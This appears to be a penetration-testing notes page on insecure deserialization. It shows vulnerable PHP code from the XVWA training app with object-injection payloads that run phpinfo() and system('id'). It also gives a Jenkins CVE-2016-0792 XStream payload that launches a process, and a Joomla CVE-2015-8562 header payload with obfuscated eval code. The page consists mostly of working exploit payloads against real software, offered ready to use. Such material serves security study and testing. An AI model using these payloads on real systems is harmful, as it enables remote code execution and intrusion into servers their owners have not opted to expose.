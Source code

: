 # A8 - Insecure Deserialization


## XVWA

Target url:

`/xvwa/vulnerabilities/php_object_injection/?r=a:2:{i:0;s:4:%22XVWA%22;i:1;s:33:%22Xtreme%20Vulnerable%20Web%20Application%22;}`

Vulnerable code:

```
<?php 
    error_reporting(E_ALL);
    class PHPObjectInjection{
        public $inject;

        function __construct(){

        }

        function __wakeup(){
            if(isset($this->inject)){
                eval($this->inject);
            }
        }
    }
//?r=a:2:{i:0;s:4:"XVWA";i:1;s:33:"Xtreme Vulnerable Web Application";}
    if(isset($_REQUEST['r'])){  

        $var1=unserialize($_REQUEST['r']);
        

        if(is_array($var1)){ 
            echo "
".$var1[0]." - ".$var1[1];
        }
    }else{
        echo "parameter is missing";
    }
?>
```

PHP Code injection

`O:18:"PHPObjectInjection":1:{s:6:"inject";s:10:"phpinfo();";}`

without restrictions

`O:18:"PHPObjectInjection":1:{s:6:"inject";s:13:"system('id');";}`

`O:18:%22PHPObjectInjection%22:1:{s:6:%22inject%22;s:13:%22system(%27id%27);%22;}`



## Jenkins CVE-2016-0792

```
<map>
  <entry>
    <groovy.util.Expando>
      <expandoProperties>
        <entry>
          <string>hashCode</string>
          <org.codehaus.groovy.runtime.MethodClosure>
            <delegate class="groovy.util.Expando" reference="../../../.."/>
            <owner class="java.lang.ProcessBuilder">
              <command>
                <string>open</string>
                <string>/Applications/Calculator.app</string>
              </command>
              <redirectErrorStream>false</redirectErrorStream>
            </owner>
            <resolveStrategy>0</resolveStrategy>
            <directive>0</directive>
            <parameterTypes/>
            <maximumNumberOfParameters>0</maximumNumberOfParameters>
            <method>start</method>
          </org.codehaus.groovy.runtime.MethodClosure>
        </entry>
      </expandoProperties>
    </groovy.util.Expando>
    <int>1</int>
  </entry>
</map>
```
## CVE-2015-8562 - Joomla! 1.5 < 3.4.5 - Object Injection Remote Command Execution

```
"X-Forwarded-For" : "}__test|O:21:\"JDatabaseDriverMysqli\":3:{s:2:\"fc\";O:17:\"JSimplepieFactory\":0:{}s:21:\"\\\\0\\\\0\\\\0disconnectHandlers\";a:1:{i:0;a:2:{i:0;O:9:\"SimplePie\":5:{s:8:\"sanitize\";O:20:\"JDatabaseDriverMysql\":0:{}s:8:\"feed_url\";s:165:\"eval(chr(101).chr(99).chr(104).chr(111).chr(40).chr(109).chr(100).chr(53).chr(40).chr(49).chr(51).chr(51).chr(56).chr(41).chr(41).chr(59));JFactory::getConfig();exit\";s:19:\"cache_name_function\";s:6:\"assert\";s:5:\"cache\";b:1;s:11:\"cache_class\";O:20:\"JDatabaseDriverMysql\":0:{}}i:1;s:4:\"init\";}}s:13:\"\\\\0\\\\0\\\\0connection\";b:1;}\\xf0\\xfd\\xfd\\xfd"
```
